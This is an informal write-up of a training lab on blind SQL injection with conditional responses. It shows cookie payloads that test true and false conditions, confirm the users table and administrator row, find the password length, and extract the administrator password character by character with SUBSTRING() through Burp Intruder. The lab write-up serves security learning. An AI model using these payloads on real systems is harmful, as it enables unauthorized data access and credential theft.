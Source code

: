 # SQL injection labs

## Lab: Blind SQL injection with conditional responses



The application uses a tracking cookie for analytics

The database contains a different table called <mark style="color:red;">**`users`**</mark>, with columns called <mark style="color:red;">**`username`**</mark> and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the <mark style="color:red;">**`administrator`**</mark> user.



**`Cookie: TrackingId=St10uonYH4szuC66`**

```sql
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='1 #true
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='2  #false
```



ok i will use limit

```sql
' AND (SELECT 'X' from users limit 1)='x'--
```

<figure><img src="../../../.gitbook/assets/image (132).png" alt=""><figcaption><p>Welcome back!</p></figcaption></figure>

ok i will try use table users and column username

```sql
AND+(SELECT+username+FROM+users+WHERE+username='administrator')='administrator'--
```

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

ok in this case i'll  tracking passsword using SUBSTRING() function to extract a single character from the password



```sql
' AND (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1)='administrator'--
```

<figure><img src="../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

i will try numbers 1 to 19 all valid  password >19

go to intruder  > cluster bomb

```sql
'+AND+(SELECT+substring(password,1,1)+FROM+users+WHERE+username%3d'administrator')%3d'8'--
```

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

```
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
8oiqhj3w6k9bfypfq7j1
```

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

offfffffffffffffffffffffff! :smile: :tada:
